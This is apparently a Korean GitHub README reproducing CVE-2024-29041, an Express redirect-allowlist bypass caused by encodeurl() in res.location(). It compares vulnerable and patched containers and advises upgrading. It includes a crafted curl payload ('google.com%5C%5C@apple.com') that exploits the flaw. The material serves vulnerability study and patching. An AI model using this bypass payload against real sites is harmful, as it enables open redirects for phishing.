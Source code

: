 # CVE-2024-29041

> [Github (@j93es)](https://github.com/j93es)

> [Blog](https://j93.es)

<br/>

## 요약

아래 Express 버전에서 `req.location()` 혹은 내부적으로 `req.location()`을 이용하는 `req.redirect()`에서는 헤더의 `Location`에 값을 넣기 전, encodeurl()이라는 함수를 이용하여 인코딩합니다. 이러한 과정에서 리디렉션 화이트리스트를 우회할 수 있는 가능성이 발생합니다.

- \< 4.19.2
- \>= 5.0.0-alpha.1, \< 5.0.0-beta.3

<br/>

## PoC 구성

먼저 normal-app, vuln-app 2개의 express 서비스를 제작하였습니다. 두 서비스는 모두 query의 q에 있는 url을 파싱한 후, `Location` 헤더에 넣어 응답을 반환합니다.

```js
// index.js
const express = require("express");
const app = express();
const port = 3000;

app.use(function (req, res) {
  res.location(req.query.q).end();
});

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`);
});
```

각 app의 package.json에 express 버전을 명시하였습니다. vuln-app은 4.19.0, normal-app은 패치가 완료된 4.19.2로 구동됩니다.

<br/>

## 환경 구성 및 실행

8002에는 취약한 버전의 Express가, 8003 포트에는 안전한 버전의 Express가 구동됩니다.

```sh
# 이미지 빌드
make build

# 컨테이너 실행
make up

# 종료
make down

# 로그 보기
make logs

# 컨테이너 재시작
make restart

# 컨테이너 및 이미지 제거 가능
make clean

# 이미지 제거 후 재빌드
make rebuild
```

<br/>

## 결과

### 요청

[패치 내역1](https://github.com/expressjs/express/commit/0b746953c4bd8e377123527db11f9cd866e39f94)과 [패치 내역2](https://github.com/expressjs/express/commit/0867302ddbde0e9463d0564fea5861feb708c2dd)의 테스트 코드를 참고하여 요청 URL을 선정하였습니다.

```sh
curl -i -X GET "http://localhost:8003?q=http://google.com%5C%5C@apple.com"
```

### 안전한 Express 서버(8003 포트)

![normal](./assets/normal.png)

### 취약한 Express 서버(8002 포트)

![normal](./assets/vuln.png)

<br/>

## 정리

`http://localhost:8003?q=http://google.com%5C%5C@apple.com` 요청 시 `Location` 헤더에, 취약한 Express 버전에서는 `http://google.com\\@apple.com`가 추가되지만, 안전한 Express 버전에서는 `http://google.com\%5C@apple.com`이 추가됩니다. 이처럼 버전에 따라 인코딩된 문자열을 처리하는 방식이 상이함을 알 수 있습니다. 이를통해 취약한 Express 버전에서는 google.com이 아닌 apple.com으로 이동할 수 있는 가능성이 있습니다. 따라서 최신버전의 Express로 업데이트하는 것이 필요합니다.
